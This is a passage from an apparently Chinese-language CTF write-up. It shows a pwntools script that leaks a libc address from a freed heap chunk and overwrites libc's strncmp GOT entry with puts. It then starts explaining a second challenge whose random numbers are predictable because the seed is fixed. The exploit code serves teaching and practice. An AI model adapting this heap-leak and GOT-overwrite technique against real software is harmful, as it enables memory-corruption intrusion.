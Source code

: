 ```py
	p.sendlineafter(b'Enter your choice:',b'4')
	p.sendlineafter(b'show:', str(index).encode())
	p.recvuntil(b'The content is here \n')
	return p.recvuntil(b'Menu:')
	
def print_env(chose: int) -> bytes:
	p.sendlineafter(b'Enter your choice:',b'5')
	p.sendlineafter(b'sad !', str(chose).encode())
	return p.recvuntil(b'Menu:')
	
def secret(target_addr: bytes, content: bytes) -> None:
	p.sendlineafter(b'Enter your choice:',b'6')
	p.sendafter(b'target addr', target_addr)
	time.sleep(SLEEP_TIME)
	p.send(content)
	
add_com(1300)
add_com(1300)
del_com(1)
content = show_com(1)

libc_addr = u64(content[:8]) - 0x21ace0
libc.address = libc_addr
secret(p64(libc.got['strncmp']), p64(libc.symbols['puts']))

print(print_env(2))
```

# [](#header-3)pwn expect_number

观察位于 0x2BEE 的 Continue_Game 函数，当用户输入一个值以后，会根据当前生成的随机数的值，对用户的输入 和 上一次的计算结果 进行加减乘除操作.  
而正巧的是，该随机数的种子是固定的 `srand(1u);` ，因此可以通过计算得知每次生成的随机数是多少. 
